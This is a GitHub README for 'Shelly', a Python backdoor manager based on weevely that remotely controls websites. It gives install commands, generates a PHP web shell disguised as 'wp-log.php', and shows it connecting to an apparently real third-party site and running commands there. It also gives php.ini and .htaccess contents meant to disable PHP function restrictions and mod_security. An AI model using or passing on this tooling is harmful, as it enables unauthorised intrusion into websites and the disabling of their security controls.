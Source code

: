
## Shelly | Simple Backdoor Manager with Python (based on weevely)

![Screenshoot](capture/capture-2.png)
<br>
Shelly is a simple tool that is written using Python, which functions to remote a website
<br>
### Instalation :

$ git clone https://github.com/tegal1337/Shelly <br>
$ cd Shelly <br>
$ python3 shell.py <br>

### Requirements :

<pre>
sudo pip install -r requirements.txt
</pre>

### Example :
<pre>

python3 shell.py -g wp-log -p tegal1337
   ______      ____
  / __/ / ___ / / __ __
 _\ \/ _ / -_/ / / // /
/___/_//_\__/_/_/\_, /
                /___/  v.1
--------------------------
Python shell - Tegal1337 |
Generate :
[+] ./backdoor.py -g "nama_shell" -p "password"
Connect Server :
[+] ./backdoor.py -u "url_shell" -p "password"

Backdoor berhasil dibuat dengan nama wp-log.php dan password tegal1337

dalpan@Tegal1337:~/Tools$ python3 shell.py -u "https://www.pamz3d.com/wp-log.php" -p tegal1337
/opt/lampp/htdocs/php-futsal$ id
uid=501(pamz3d) gid=501(pamz3d) groups=501(pamz3d)
</pre>
![Screenshoot](capture/capture.png)
![Screenshoot](capture/capture-3.png)

### Disable Function Bypass :
<ul>
   <li>look for the folder whose permissions 777 (rwx rwx rwx)</li>
   <li>Upload file php.ini </li>
</ul>
<pre>
safe_mode = OFF
disable_functions = NONE
</pre>
<ul>
   <li>And upload file .htaccess</li>
 </ul>
<pre>
<IfModule mod_security.c>
SecFilterEngine Off
SecFilterScanPOST Off
</IfModule>
</pre>


### Artikel :
<ul>
   <li>https://tegalsec.org/2020/01/meremote-sebuah-website-menggunakan.html</li>
</ul>

### Contact :
<ul>
  <li> Email : van@tegalsec.org</li>
</ul>
